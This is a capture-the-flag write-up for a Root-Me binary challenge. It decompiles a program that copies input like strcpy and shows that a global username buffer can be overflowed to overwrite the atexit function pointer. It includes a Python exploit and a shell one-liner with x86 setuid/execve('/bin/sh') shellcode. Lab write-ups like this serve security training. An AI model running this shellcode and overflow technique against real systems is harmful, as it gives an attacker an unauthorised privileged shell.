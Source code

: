 ### S0lv3d by H4yicl3

First i download binary file with my scp-script
```
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```

I use IDA to analysis the code .

the main calling function cp_username 
```
int __cdecl cp_username(int username, int arg)
{
  bool v2; // al@1
  int result; // eax@2

  do
  {
    *(_BYTE *)username = *(_BYTE *)arg;
    v2 = *(_BYTE *)username++ != 0;     //username++
    ++arg;				//arg++ 
					//it's assign value of arg to username
  }
  while ( v2 );
  result = username;
  *(_BYTE *)username = 0;		//byte of present username = 0 
  return result;			//end of while
}
```
that mean this function look like strcpy


```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  if ( argc != 2 )
  {
    printf("[-] Usage : %s <username>\n", *argv);
    exit(0);
  }
  cp_username((int)&username, (int)argv[1]);
  printf("[+] Running program with username : %s\n", &username);
  atexit(0);				//end with atexit() function so we can't overflow the return address
}
```
But we finded this in exports windows in IDA
```
_atexit 0804A240 
username 0804A040
```
That mean we can overflow username and change the address of _atexit() function that the program use to exit
0x0804A240 - 0x0804A040 = 512
so we overflow 512 byte -> 4byte next is address of _atexit() !! you know ?
try write a simple script look like!!

```python
shell = "\x90"*4+"\x31\xc0\x31\xdb\x31\xc9\xb0\x17\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"
lenofshell=44
padding =(512-lenofshell-4)*"A"
address_of_username ="\x40\xA0\x04\x08"
retn=address_of_username
print shell + padding + retn
```
try to exploit it with the following step
```
./ch7 `(python ch7.py)`
```

we controled the shell !! GLHF !!

exploit in sever
```
./ch7 $(python -c 'print "\x90"*4+"\x31\xc0\x31\xdb\x31\xc9\xb0\x17\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"+(512-48)*"A"+"\x40\xA0\x04\x08"')
```

